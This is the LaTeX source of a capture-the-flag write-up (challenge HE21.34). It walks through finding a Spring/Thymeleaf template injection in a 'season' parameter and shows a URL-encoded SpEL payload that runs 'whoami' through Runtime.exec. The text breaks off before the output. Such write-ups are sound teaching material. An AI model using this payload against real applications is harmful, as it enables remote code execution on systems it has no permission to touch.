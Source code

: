 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\noindent Did you know there were five seasons?

\begin{itemize}
\item Find the flag file!

\item\url{http://46.101.107.117:2111}
\end{itemize}

\noindent Note: The service is restarted every hour at x:00.
\subsection{Show Hint}
The {\NotoEmoji 🐟} is just a trap {\NotoEmoji 😼}

\noindent A hint is hiding in one of the poems.

\hypertarget{he21.34-solution}{%
\subsection{HE21.34 Solution}\label{he21.34-solution}}

\noindent The hint leads us to check the poems for differences to the
originals, and -- lo and behold -- we find that the spring poem has a
change: trees has been changed to ``Thymeleafs''.  We probably have to
exploit a spring/Thymeleaf vulnerability.  Time to research the
issues.

Some searching, we find \url{https://www.fatalerrors.org/a/sprboot-thymeleaf-template-injection-for-java-security-development.html} that explains how to inject code into the template engine.  The we need to find a parameter that can be injected, so first check parameter \verb+season+.  When we set it to \verb+xxx+ we get an error message of
{\footnotesize\begin{verbatim}
{
    "timestamp": "2021-04-25T14:59:58.208+0000",
    "status": 500,
    "error": "Internal Server Error",
    "message": "Error resolving template [page-xxx], template might not exist or might not be \
                            accessible by any of the configured Template Resolvers",
    "path": "/season"
}
\end{verbatim}
}

\noindent Changing the parameter to execute \verb+whoami+ using \\
\noindent {\footnotesize\begin{verbatim}
_$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22)
                          .getInputStream()).next()%7d__::,x HTTP/1.1
\end{verbatim}}
\noindent gives
\end{document}
